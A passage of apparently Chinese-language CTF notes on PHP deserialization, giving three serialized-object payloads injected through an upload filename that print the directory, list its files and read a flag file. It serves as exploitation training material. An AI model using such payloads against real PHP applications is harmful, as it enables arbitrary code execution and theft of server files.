 注意需要转义，抓包吧filename改为payload
最终提交为：`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:27:\"print_r(dirname(__FILE__));\";}`

![](../../_Attachment/php反序列化入门.assets/image-20240606175021775.png)


目录/opt/lampp/htdocs
`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}`继续读

![](../../_Attachment/php反序列化入门.assets/image-20240606175025170.png)


然后用`file_get_contents`函数读flag
`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}`

![](../../_Attachment/php反序列化入门.assets/image-20240606175028471.png)
